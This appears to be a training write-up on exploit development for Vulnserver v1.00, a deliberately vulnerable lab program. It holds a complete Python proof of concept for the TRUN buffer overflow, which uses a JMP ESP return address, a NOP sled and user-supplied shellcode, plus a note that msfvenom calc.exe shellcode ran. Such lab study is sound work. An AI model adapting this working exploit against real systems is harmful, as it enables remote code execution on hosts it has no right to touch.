

# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview


In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc4** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:



I used an x86 `calc.exe` execution shellcode generated by **msfvenom** (with bad characters removed), and confirmed that it executed successfully.